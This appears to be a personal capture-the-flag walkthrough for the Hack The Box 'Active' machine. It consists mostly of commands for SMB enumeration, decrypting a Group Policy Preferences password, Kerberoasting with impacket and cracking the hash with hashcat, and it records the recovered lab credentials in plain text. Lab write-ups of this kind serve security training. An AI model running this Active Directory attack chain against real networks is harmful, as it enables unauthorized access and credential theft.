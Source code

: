 ### DNS
```
nslookup
dnsrecon -d 10.129.151.62 -r 10.0.0.0/8
```

### Nmap
```
locate -r '\.nse$' | xargs grep categories | grep 'default\|version\|safe' | grep smb

nmap --script safe -p 445 active.htb
nmap --script smb-enum-services -d -p 445 active.htb
```

### SMB
```
smbmap -R Replication -H active.htb --depth 10
smbmap -R Replication -H active.htb -A Groups.xml -q --depth 10
```

### Decrypt Group Policy Preferences (GPP)
```
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18
```

### Carefully running impacket
```
python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -all
or
python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -all -dc-ip active.htb
or
python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -all -dc-ip 10.129.151.62
```

### psexec.py or evil-winrm
won't work
```
python3 /usr/share/doc/python3-impacket/examples/psexec.py active.htb/SVC_TGS:'GPPstillStandingStrong2k18'@active.htb
or use wmiexec.py
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py active.htb/administrator:'Ticketmaster1968'@10.129.148.91

[-] SMB SessionError: STATUS_LOGON_FAILURE(The attempted logon is invalid. This is either due to a bad username or authentication information.)
```
Because it's not an admin user

### smbmap again to get user.txt
```
smbmap -u SVC_TGS -p GPPstillStandingStrong2k18 -d active.htb -H 10.129.151.62
smbmap -u SVC_TGS -p GPPstillStandingStrong2k18 -d active.htb -H 10.129.151.62 -R Users --depth 10
smbmap -u SVC_TGS -p GPPstillStandingStrong2k18 -d active.htb -H 10.129.151.62 -R Users --depth 10 -A user.txt
smbclient \\\\active.htb\\Users -U=SVC_TGS%'GPPstillStandingStrong2k18'
```

### Kerberoasting
https://0xdf.gitlab.io/2018/12/08/htb-active.html#kerberoasting
```
GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
or
python3 GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/svc_tgs
or
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request
```

### Crack 13100
```
hashcat -a 0 -m 13100 hash /usr/share/wordlists/rockyou.txt
Ticketmaster1968
```

### smbclient as administrator
```
smbclient //active.htb/Users -U=Administrator%'Ticketmaster1968'
```
